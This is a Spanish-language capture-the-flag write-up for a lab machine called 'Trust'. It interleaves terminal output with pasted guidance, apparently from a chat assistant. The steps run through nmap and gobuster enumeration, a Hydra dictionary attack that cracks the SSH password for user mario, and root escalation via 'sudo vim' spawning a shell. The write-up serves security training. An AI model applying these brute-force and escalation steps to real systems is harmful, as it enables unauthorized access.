 # Máquina Trust

**IP**: 172.17.0.2

## Fase de comprobación de conectividad

### 1. Ping
- La máquina responde correctamente:
┌──(pol㉿kali)-[~]
└─$ ping 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.133 ms
64 bytes from 172.17.0.2: icmp_seq=2 ttl=64 time=0.080 ms
64 bytes from 172.17.0.2: icmp_seq=3 ttl=64 time=0.082 ms
64 bytes from 172.17.0.2: icmp_seq=4 ttl=64 time=0.069 ms
^C
--- 172.17.0.2 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3061ms
rtt min/avg/max/mdev = 0.069/0.091/0.133/0.024 ms

![imagen de la máquina desplegada](assets/trust_1.png)

###   Fase 1: Reconocimiento
1. Escaneo básico con Nmap
Vamos a identificar los puertos abiertos en la máquina.

Ejecuta:

bash
Copy
nmap 172.17.0.2                                                

┌──(pol㉿kali)-[~]
└─$ nmap 172.17.0.2  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-06 18:50 -03
Nmap scan report for 172.17.0.2
Host is up (0.000025s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.39 seconds

1. Escaneo avanzado con Nmap
Vamos a obtener más detalles sobre los servicios y el sistema operativo.

Ejecuta:

bash
Copy
nmap -sV -O 172.17.0.2

┌──(pol㉿kali)-[~]
└─$ nmap -sV -O 172.17.0.2
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-06 18:52 -03
Nmap scan report for 172.17.0.2
Host is up (0.000089s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.71 seconds

### ¡Perfecto! El escaneo avanzado con Nmap nos ha dado información muy útil sobre la máquina 172.17.0.2. Vamos a analizar los resultados y continuar paso a paso.

Resultados del escaneo avanzado
Servicios y versiones:

Puerto 22/tcp:

Servicio: SSH

Versión: OpenSSH 9.2p1 Debian 2+deb12u2 (protocolo 2.0).

Puerto 80/tcp:

Servicio: HTTP

Versión: Apache httpd 2.4.57 (Debian).

Sistema operativo:

Sistema operativo: Linux (kernel 4.x o 5.x).

Detalles: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4).

Distancia de red:

La máquina está a 1 hop de distancia (es decir, está en la misma red local).

Fase 2: Análisis de servicios
1. Servicio SSH (puerto 22)
OpenSSH 9.2p1 es una versión relativamente reciente y segura. Es poco probable que tenga vulnerabilidades explotables directamente.

Sin embargo, podemos intentar un ataque de fuerza bruta si encontramos un nombre de usuario válido (por ejemplo, admin, root, user).

2. Servicio HTTP (puerto 80)
Apache 2.4.57 es una versión reciente, pero siempre es recomendable buscar vulnerabilidades específicas.

Vamos a investigar el servidor web para ver si hay directorios ocultos, archivos sensibles o aplicaciones web vulnerables.

Próximos pasos
Investigar el servidor web (puerto 80):

Usaremos curl o un navegador para ver qué hay en la página principal.

Luego, escanearemos directorios con una herramienta como gobuster para encontrar rutas ocultas.

Buscar vulnerabilidades en los servicios:

Revisaremos si hay exploits públicos para las versiones de Apache y OpenSSH.

Paso 1: Investigar el servidor web
1. Acceder a la página principal
Ejecuta:

bash
curl http://172.17.0.2


<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <title>Apache2 Debian Default Page: It works</title>
    <style type="text/css" media="screen">
  * {
    margin: 0px 0px 0px 0px;
    padding: 0px 0px 0px 0px;
  }
.....

### markdown
Copy
### 4. Análisis del servicio HTTP
- Accedí al servidor web en el puerto 80.
- La página muestra: [Aquí pega el contenido que obtengas].
2. Escaneo de directorios con Gobuster
Ejecuta:

bash
Copy
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt .php, .txt, .py, 

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 275]
Progress: 220559 / 220560 (100.00%)
===============================================================
Finished
===============================================================
### ¡Gracias por compartir los resultados! Gobuster ha encontrado un directorio interesante:

/server-status: Este directorio devuelve un código de estado 403 (Prohibido), lo que significa que no tenemos acceso a él. Esto es común en servidores Apache, ya que /server-status suele estar restringido por razones de seguridad.

Análisis de los resultados
/server-status:

Este directorio es utilizado por Apache para mostrar el estado del servidor (por ejemplo, solicitudes activas, estadísticas, etc.).

El código 403 indica que el acceso está prohibido, lo cual es una configuración típica para evitar que usuarios no autorizados vean información sensible.

No se encontraron otros directorios:

Gobuster no encontró otros directorios o rutas accesibles en el servidor web. Esto sugiere que el servidor puede estar configurado de manera minimalista o que los directorios están ocultos detrás de nombres no comunes.

Próximos pasos
Investigar la página principal:

Aunque no se encontraron directorios adicionales, es importante revisar la página principal del servidor web (http://172.17.0.2) para ver si hay pistas o información útil.

Usa curl o abre la página en un navegador:

bash
Copy
curl http://172.17.0.2
Revisar el código fuente:

Si hay una página web, revisa su código fuente en busca de comentarios, enlaces ocultos o credenciales.

Buscar subdominios o virtual hosts:

A veces, los servidores web tienen múltiples sitios alojados en el mismo IP. Podemos intentar descubrir subdominios o virtual hosts.

Investigar el servicio SSH:

Dado que el servidor web no ha revelado mucha información, podemos enfocarnos en el servicio SSH (puerto 22) para intentar acceder al sistema.

Pregunta:
¿Quieres que continuemos con la investigación de la página principal usando curl, o prefieres explorar otra área (como SSH o subdominios)?

¡Espero tu respuesta para seguir avanzando! 😊
#
Buena idea! Agregar extensiones como .php, .txt, y .py al escaneo de Gobuster puede ayudarnos a descubrir archivos específicos que no aparecen en un escaneo de directorios estándar. Vamos a ejecutar Gobuster con esas extensiones y ver si encontramos algo interesante.

Paso 1: Ejecutar Gobuster con extensiones
Ejecuta el siguiente comando:

bash
Copy
### Fuzzing
Hacemos fuzzing al puerto 80 para ver si cuelga algun directorio o archivo de la raiz. 

gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.txt,.py

Explicación de los parámetros:
-u http://172.17.0.2: Especifica la URL objetivo.

-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt: Usa la lista de palabras de Seclists.

-x .php,.txt,.py: Busca archivos con estas extensiones.

Paso 2: Analizar los resultados
Una vez que Gobuster termine, revisaremos los resultados. Por ejemplo, si encuentra algo como:

Copy
/index.php            (Status: 200) [Size: 1234]
/secret.txt           (Status: 200) [Size: 567]
/admin.php            (Status: 301) [Size: 0]
Podemos investigar esos archivos para ver si contienen información útil.

Pregunta:
¿Quieres que ejecute el comando de Gobuster con las extensiones y te muestre los resultados, o prefieres hacerlo tú mismo y luego continuamos con el análisis?

¡Espero tu respuesta! 😊


┌──(pol㉿kali)-[/usr/share/seclists]
└─$ gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.txt,.py
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,py
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882236 / 882240 (100.00%)
===============================================================
Finished
===============================================================

### ¡Excelente! Gobuster ha encontrado un archivo interesante: /secret.php con un código de estado 200 (OK), lo que significa que es accesible. Vamos a investigar este archivo para ver si contiene información útil.

Análisis de los resultados
/secret.php:

Este archivo podría contener información sensible, como credenciales, mensajes ocultos o incluso una puerta trasera.

Vamos a acceder a él usando curl o un navegador.

Otros resultados:

/.php y /server-status devuelven un código 403 (Prohibido), lo que significa que no tenemos acceso a ellos.

Paso 1: Investigar /secret.php
1. Acceder al archivo /secret.php
Ejecuta:

bash
Copy
curl http://172.17.0.2/secret.php

<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>¡Secreto!</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            background-color: #f0f0f0;
            margin: 0;
            padding: 0;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
        }
        .container {
            text-align: center;
            background-color: #fff;
            padding: 20px;
            border-radius: 10px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
        }
        h1 {
            color: #333;
        }
        p {
            color: #666;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>Hola Mario,</h1>
        <p>Esta web no se puede hackear.</p>
    </div>
</body>
</html>

### Próximos pasos
Hydra
Utilizamos hydra para hacer un ataque de diccionario por SSH.

┌──(root㉿kali)-[/home/pol]
└─# hydra -l mario -P /usr/share/wordlists/rockyou.txt -t 64 ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-08 10:14:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 21 final worker threads did not complete until end.
[ERROR] 21 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-08 10:14:36

# mario@9de2e1532c9a:~$ find / -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign

# mario@9de2e1532c9a:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 9de2e1532c9a:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User mario may run the following commands on 9de2e1532c9a:
    (ALL) /usr/bin/vim

No hay problema, te guío paso a paso en Vim para que puedas escalar privilegios correctamente.

Pasos detallados:
Ejecuta Vim como root
En la terminal, escribe:

bash
Copiar
Editar
sudo vim
Esto abrirá Vim con privilegios de root.

Entra en modo de comandos
Presiona la tecla ESC para asegurarte de estar en modo normal.

Configura Vim para ejecutar una shell
Escribe lo siguiente y presiona Enter después de cada línea:

bash
Copiar
Editar
:set shell=/bin/sh
ruby
Copiar
Editar
:shell
Obtendrás una shell como root
Ahora deberías tener acceso a una shell interactiva con privilegios elevados. Verifícalo ejecutando:

bash
Copiar
Editar
whoami
id
¿Cómo salir de Vim si algo falla?
Si necesitas salir sin ejecutar la shell, puedes escribir:

less
Copiar
Editar
:q!
y presionar Enter.

Prueba estos pasos y dime si lograste obtener acceso como root. 🚀

mario@9de2e1532c9a:~$ sudo vim

# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# hosname
/bin/sh: 3: hosname: not found
# 



